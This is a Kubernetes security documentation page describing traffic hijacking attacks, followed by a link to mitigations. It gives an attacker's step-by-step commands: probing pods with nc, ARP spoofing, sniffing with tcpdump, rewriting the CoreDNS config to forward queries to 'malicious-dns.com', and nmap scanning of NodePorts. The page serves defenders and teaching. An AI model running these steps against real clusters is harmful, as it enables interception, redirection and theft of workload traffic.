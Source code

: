 ```yaml
---
sidebar_position: 11
title: "Traffic Hijacking"
description: "How attackers manipulate Kubernetes network traffic to intercept, redirect, or disrupt communication between workloads."
---
```


# Traffic Hijacking

**Traffic hijacking** in Kubernetes occurs when an attacker intercepts, redirects, or disrupts network traffic within the cluster. This can lead to **data exfiltration, man-in-the-middle (MITM) attacks, service downtime, and unauthorized access to sensitive information**.

---

## Exploitation Steps: Manipulating Kubernetes Network Traffic

An attacker exploits **misconfigured network policies, insecure service exposure, or DNS manipulation** to hijack traffic.

### Step 1: Exploit Missing Network Policies

If network policies are not enforced, the attacker scans for open communication paths:

```bash
kubectl get networkpolicies --all-namespaces
```

If no restrictive policies exist, the attacker can access internal workloads:

```bash
kubectl run attacker-pod --rm -it --image=alpine -- /bin/sh
nc -zv <target-pod-ip> 443
```

Without network segmentation, lateral movement between pods is possible.

### Step 2: Conduct a Man-in-the-Middle (MITM) Attack

If an attacker gains access to a compromised pod, they can intercept internal traffic using **ARP spoofing**:

```bash
arpspoof -i eth0 -t <victim-ip> <gateway-ip>
```

Or by using **tcpdump** to capture sensitive data:

```bash
tcpdump -i eth0 -A port 443
```

This allows the attacker to read and modify unencrypted traffic.

### Step 3: Manipulate Kubernetes DNS

If **CoreDNS** is misconfigured, the attacker can modify DNS responses to redirect traffic:

```bash
kubectl edit configmap coredns -n kube-system
```

By injecting a rogue DNS entry:

```yaml
.:53 {
forward . malicious-dns.com
}
```

All DNS queries in the cluster are now redirected to the attacker's controlled server.

### Step 4: Abuse External Service Exposure

If services are exposed via **NodePort** or **LoadBalancer** without proper authentication, the attacker accesses internal workloads directly:

```bash
nmap -p 30000-32767 <cluster-node-ip>
```

If a publicly exposed service is found, the attacker exploits it to extract sensitive data.

### Result

The attacker has successfully **intercepted, manipulated, or redirected cluster traffic**, leading to **data theft, unauthorized access, and service disruption**.

---

## Mitigation Steps

To protect against **traffic hijacking**, follow the security best practices outlined in:

➡ **[Securing Kubernetes Network Traffic](/docs/best_practices/cluster_setup_and_hardening/network_security/traffic_hijacking_mitigation)**

This guide covers techniques such as **enforcing network policies, securing CoreDNS, encrypting intra-cluster traffic, and restricting service exposure** to prevent unauthorized network manipulation.

